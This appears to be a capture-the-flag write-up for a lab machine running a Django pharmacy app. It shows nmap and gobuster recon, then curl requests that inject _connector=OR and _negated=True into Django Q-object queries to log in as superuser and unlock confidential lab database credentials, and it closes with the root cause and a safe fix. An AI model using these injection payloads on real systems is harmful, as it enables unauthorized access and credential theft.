




## Summary

Infection is an Easy Linux machine running a Django-based pharmacy web application called **MediCare Plus**. The machine demonstrates exploitation of **CVE-2025-64459**, a critical SQL injection vulnerability in Django's `Q` object that allows attackers to manipulate ORM query logic by injecting internal parameters (`_connector`, `_negated`) through user-controlled input. The attack chain goes from unauthenticated access to authentication bypass as superuser, then access to confidential documents containing database credentials.

## Reconnaissance

### Port Scan

```bash
sudo nmap -sC -sV 10.129.234.54
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14
80/tcp open  http    nginx 1.24.0 (Ubuntu)
```

Only two ports open: SSH (22) and HTTP (80). The web server is **nginx** acting as a reverse proxy in front of a Django application.

### Web Enumeration

```bash
gobuster dir -u http://10.129.234.54/ -w common.txt
```

```
/about      (301)
/cart       (301)
/checkout   (301)
/contact    (301)
/login      (301)
/logout     (301)
/profile    (301)
/services   (301)
/static     (301)
```

## Foothold

### Step 1 - Initial Access (Guest Login)

The login page openly provides demo credentials `guest:guest`:



Logging in gives basic access to the application and reveals a useful API endpoint:

```
http://10.129.234.54/api/search_users/
```

This endpoint leaks all user accounts. Among them, the most interesting is:

```json
{
  "uid": "19447039",
  "username": "global_admin",
  "first_name": "Global",
  "last_name": "Administrator",
  "city": "Washington",
  "state": "DC"
}
```

Attempting to login as `global_admin:global_admin` fails. Trying to access the Admin Documents page as a guest also returns an access denied error:



### Step 2 - Identifying the Framework and URL Routes

Browsing to a non-existent page triggers a Django debug error page, leaking the full URL configuration and confirming the framework version:



Key findings from the debug page:

- **Framework:** Django 4.2 with `DEBUG = True`
- **Interesting routes:** `/superuser/dashboard/`, `/superuser/documents/`, `/api/documents/`

### Step 3 - CVE-2025-64459 Authentication Bypass

**CVE-2025-64459** is a critical SQL injection in Django's `Q` object. When an application passes user-controlled POST data directly into `filter()`, `exclude()`, or `get()` calls, the internal `_connector` and `_negated` parameters can be injected to reshape query logic.

The login view is likely doing something like:

```python
user = User.objects.get(Q(**request.POST.dict()))
```

By injecting `_connector=OR` and `is_superuser=True`, the SQL `AND` logic becomes `OR`, and the query matches the first superuser in the database:

```bash
curl -c cookies.txt -d \
  "username=test&password=test&_connector=OR&is_superuser=True" \
  http://10.129.234.54/login/
```

**What the ORM executes:**

```sql
-- Without exploit (fails - no such user)
WHERE username = 'test' AND password = 'test'

-- With exploit (succeeds - matches real superuser)
WHERE username = 'test' OR password = 'test' OR is_superuser = TRUE
```

The `OR is_superuser = TRUE` condition matches **James Mitchell** (uid: 29431378), and we receive a valid session cookie:

```
sessionid	7bsnht7z2y6oi43rf6xm6rw1wpn2cji4
```

Confirming access via the profile API:

```bash
curl -sb cookies.txt http://10.129.234.54/api/profile/ | jq .
```

```json
{
  "success": true,
  "profile": {
    "uid": "29431378",
    "username": "james",
    "email": "james.mitchell@medshop.htb"
  }
}
```

We now have access to the **Superuser Dashboard**:



## Privilege Escalation / Data Exfiltration

### Step 4 - Exploring the Documents API

As a superuser, the `/api/documents/` endpoint is accessible. Fetching `global_admin`'s documents (uid: 19447039):

```bash
curl -sb cookies.txt \
  "http://10.129.234.54/api/documents/?owner_id=19447039" | jq .
```

Returns three documents, but Document #1 is locked:

```json
{
  "id": 1,
  "title": "Database Credentials - CONFIDENTIAL",
  "content": "[LOCKED] This document requires Global Administrator privileges.",
  "is_confidential": true,
  "requires_global_admin": true,
  "is_locked": true
}
```

### Step 5 - Bypassing the Document Lock with `_negated`

The document lock is enforced via an ORM filter on `is_locked=True`. By injecting `_negated=True` into the query parameters, we negate that condition entirely:

```bash
curl -sb cookies.txt \
  "http://10.129.234.54/api/documents/?owner_id=19447039&_negated=True" | jq .
```

The confidential document is now returned in plaintext:

```
DATABASE CREDENTIALS - TOP SECRET

Production Database Access:
- Host: db.medshop.htb
- Port: 5432
- Database: medshop_production
- Username: db_admin
- Password: 67567b0439405e25ebd69df2a91c9852
```

## Vulnerability Root Cause

The application passes request parameters directly into Django ORM calls without sanitizing internal `Q` object parameters:

```python
# VULNERABLE
User.objects.get(Q(**request.POST.dict()))
Document.objects.filter(Q(**request.GET.dict()))

# SAFE
User.objects.get(username=request.POST['username'])
Document.objects.filter(owner_id=request.GET.get('owner_id'))
```

Django's `Q` object exposes `_connector` (`AND`/`OR`/`XOR`) and `_negated` (boolean) as internal constructor kwargs. When user-controlled dicts are unpacked directly into `Q()`, attackers gain full control over query logic.
